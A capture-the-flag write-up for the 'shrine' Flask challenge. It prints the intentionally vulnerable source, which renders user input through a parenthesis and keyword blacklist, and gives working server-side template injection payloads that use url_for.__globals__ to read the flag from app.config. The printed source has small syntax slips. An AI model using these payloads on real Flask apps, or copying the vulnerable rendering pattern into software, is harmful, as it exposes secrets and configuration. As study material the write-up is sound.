 # shrine

![Screenshot from 2021-07-26 17-55-40](https://user-images.githubusercontent.com/87865134/126978185-a7784b59-3697-4004-9220-792073ed9cae.png)

### - Source Code Disclosure
```python
import flask import os 
app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG') 

@app.route('/') 
def index(): 
    return open(__file__).read() 
    
@app.route('/shrine/') 
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
        blacklist = ['config', 'self'] 
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 
    return flask.render_template_string(safe_jinja(shrine)) 


if __name__ == '__main__': app.run(debug=True) 
```
### - Hint:
  - Flag in app.config

### - Source code review:
  - has route ***/shrine/*** use `render_template` to render data  

![Screenshot from 2021-07-26 18-03-28](https://user-images.githubusercontent.com/87865134/126978929-e07e7024-1da7-4ed8-85d5-23dbcca1d6b0.png)
  
  - can't use function in route ***/shrine/*** because `s = s.replace('(', '').replace(')', '')`
  - can't use built-in object `config`, `self` because it is in the `blacklist = ['config', 'self'] `
  - can use built-in function  `url_for()` and `get_flashed_messages()`
  
### - Exploit:
  - use `url_for.__globals__` to get the dictionary that holds the function’s global variables
  ```python
  http://111.200.241.244:62937/shrine/{{url_for.__globals__}}
  ```
 
 ![Screenshot from 2021-07-26 18-13-27](https://user-images.githubusercontent.com/87865134/126980102-12da23dc-724b-41ef-8212-dc8fc2391c5e.png)

  - `'current_app': <Flask 'app'>` is the current Flask to be used
  - Flag is in app.config -> retrieve `['current_app.config']` to get flag
  ```python
  http://111.200.241.244:62937/shrine/{{url_for.__globals__['current_app'].config}}
  ```
 
 ![Screenshot from 2021-07-26 18-17-24](https://user-images.githubusercontent.com/87865134/126980594-7924c08b-6c3a-4ddc-8097-d0aefc32b7f4.png)

### - Description
> **category**: Server-side Template Injection
 
### - Reference:
- [Flask Rendering Template](https://flask.palletsprojects.com/en/2.0.x/quickstart/#rendering-templates)
- [Python Data model](https://docs.python.org/3/reference/datamodel.html)

